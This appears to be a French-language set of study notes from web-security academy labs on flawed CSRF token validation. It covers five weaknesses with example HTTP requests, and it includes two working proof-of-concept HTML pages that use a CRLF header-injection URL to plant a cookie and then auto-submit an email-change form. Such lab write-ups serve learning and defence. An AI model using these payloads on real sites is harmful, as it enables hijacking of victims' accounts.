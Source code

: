 
Un jeton CSRF est une valeur unique, secrète et imprévisible, générée par l'application côté serveur et partagée avec le client. Lorsqu'il émet une requête pour effectuer une action sensible, comme l'envoi d'un formulaire, le client doit inclure le jeton CSRF correct. Dans le cas contraire, le serveur refusera l'action demandée.

> Correctement implémentés, les jetons CSRF protègent contre les attaques CSRF en empêchant un attaquant de créer une requête valide pour le compte de la victime. Comme l'attaquant n'a aucun moyen de prédire la valeur correcte du jeton CSRF, il ne pourra pas l'inclure dans la requête malveillante.

# Défauts courants dans la validation des jetons CSRF

Les vulnérabilités CSRF surviennent généralement en raison d'une validation défectueuse des jetons CSRF

### 1. Validation of CSRF token depends on request method

(La validation du jeton CSRF dépend de la méthode de demande)

Certaines applications valident correctement le jeton lorsque la requête utilise la méthode POST, mais ignorent la validation lorsque la méthode GET est utilisée.

> Dans cette situation, l'attaquant peut passer à la méthode GET pour contourner la validation et lancer une attaque CSRF

> Si l’app vérifie le token **seulement** pour POST, un attaquant peut forcer une requête **GET** pour exécuter une action sans token.

```http
GET /email/change?email=pwned@evil-user.net 
HTTP/1.1 Host: vulnerable-website.com 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```


### 2. Validation of CSRF token depends on token being present

(La validation du jeton CSRF dépend de la présence du jeton)

Certaines applications valident correctement le jeton lorsqu'il est présent, mais ignorent la validation si le jeton est omis.

> Dans cette situation, l'attaquant peut supprimer l'intégralité du paramètre contenant le jeton (pas seulement sa valeur) pour contourner la validation et lancer une attaque CSRF

> Si l’app **n’ouvre** la vérification que quand le paramètre token existe, un attaquant peut appeler l’endpoint **sans** ce paramètre (le supprimer) et contourner la protection.

```http
POST /email/change HTTP/1.1 Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```


### 3. CSRF token is not tied to the user session

(Le jeton CSRF n'est pas lié à la session utilisateur)

Certaines applications ne vérifient pas que le jeton appartient à la même session que l'utilisateur à l'origine de la requête. Elles gèrent alors un pool global de jetons qu'elles ont émis et acceptent tout jeton qui y figure.

> Dans cette situation, l'attaquant peut se connecter à l'application en utilisant son propre compte, obtenir un jeton valide, puis transmettre ce jeton à l'utilisateur victime dans son attaque CSRF

> Si le token n’est **pas lié** à la session, un attaquant peut s’authentifier, récupérer un token valide et l’utiliser contre une victime.

> Cela peut arrive que le token n'es utiliser que une seule fois


### 4. CSRF token is tied to a non-session cookie

(Le jeton CSRF est lié à un cookie non-session)

Dans une variante de la vulnérabilité précédente, certaines applications associent le jeton CSRF à un cookie, mais pas à celui utilisé pour le suivi des sessions. Ce problème peut facilement se produire lorsqu'une application utilise deux infrastructures distinctes, l'une pour la gestion des sessions et l'autre pour la protection CSRF, qui ne sont pas intégrées

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

Cette situation est plus difficile à exploiter, mais reste vulnérable. **Si le site web présente un comportement permettant à un attaquant d'installer un cookie dans le navigateur de la victime, une attaque est possible.**

> L'attaquant peut se connecter à l'application avec son propre compte, obtenir un jeton valide et le cookie associé, exploiter le comportement d'installation de cookie pour installer son cookie dans le navigateur de la victime et lui transmettre son jeton lors de son attaque CSRF.

##### Explication plus simplet - Le contexte

Le jeton CSRF est censé protéger contre les attaques où un site malveillant force un utilisateur authentifié à effectuer une action.  
**Problème ici :** le token CSRF est stocké dans un **cookie séparé** qui **n’est pas lié à la session**.

Exemple :

```
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv
```

- `session=...` → suivi de la session de l’utilisateur.    
- `csrfKey=...` → token CSRF, mais pas lié à cette session.

> **Conséquence :** le token CSRF peut être valide **même si ce n’est pas le token de l’utilisateur connecté**.

##### Comment un attaquant peut exploiter ça

1. L’attaquant se connecte à l’application avec **son propre compte** → il reçoit **un token CSRF valide** (`csrf`) associé à son cookie (`csrfKey`).

2. Il trouve un moyen d’**installer son cookie `csrfKey`** dans le navigateur de la victime (via un script, un sous-domaine vulnérable, etc...).

```
https://target.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
```

3. Quand la victime visite le site ou clique sur un lien malveillant, le navigateur envoie **le cookie de l’attaquant** + **le token de l’attaquant** → le serveur accepte la requête comme si c’était légitime.

> Résultat : la victime exécute des actions au nom de l’attaquant ou de son propre compte.

```html
<html>
  <body>
    <form action="https://0a5c00600452448e8309698600ef0014.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dipeuaberthold&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="JcY9IeoWr308wemxpp0q3tAG3DdeKeFY" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a5c00600452448e8309698600ef0014.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=lZDYzsBCRJQnCeuVFAwSQaV3TnefT2jH%3b%20SameSite=None" onerror="document.forms[0].submit()">

  </body>
</html>
```

##### Conclusion

- Même si le token existe et semble “valide”, **il n’est pas associé à la bonne session**.
- Si un attaquant peut placer son cookie dans le navigateur de la victime, il peut **contourner la protection CSRF**.

### 5. CSRF token is simply duplicated in a cookie

(Le jeton CSRF est simplement dupliqué dans un cookie)

Dans une autre variante de la vulnérabilité précédente, certaines applications ne conservent aucun enregistrement côté serveur des jetons émis, mais dupliquent chaque jeton dans un cookie et un paramètre de requête. Lors de la validation de la requête suivante, l'application vérifie simplement que le jeton soumis dans le paramètre de requête correspond à la valeur soumise dans le cookie.

Cette défense, parfois appelée « double soumission », contre le CSRF est préconisée car elle est simple à mettre en œuvre et évite tout état côté serveur :

```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

> Dans ce cas, l'attaquant peut à nouveau lancer une attaque CSRF si **le site web propose une fonctionnalité de paramétrage des cookies**. 
> 
> Dans ce cas, l'attaquant n'a pas besoin d'obtenir son propre jeton valide. Il lui suffit d'inventer un jeton (éventuellement au format requis, si celui-ci est vérifié), d'exploiter le comportement de paramétrage des cookies pour placer son cookie dans le navigateur de la victime et de lui transmettre son jeton lors de son attaque CSRF.

```http
<html>
  <body>
    <form action="https://0a2b009b043071d5811e673100630035.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned@pwned.pwned" />
      <input type="hidden" name="csrf" value="2Rn2fU5X8B1OTIb5W2DmsUj6NMhwqiFR" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a2b009b043071d5811e673100630035.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=2Rn2fU5X8B1OTIb5W2DmsUj6NMhwqiFR%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

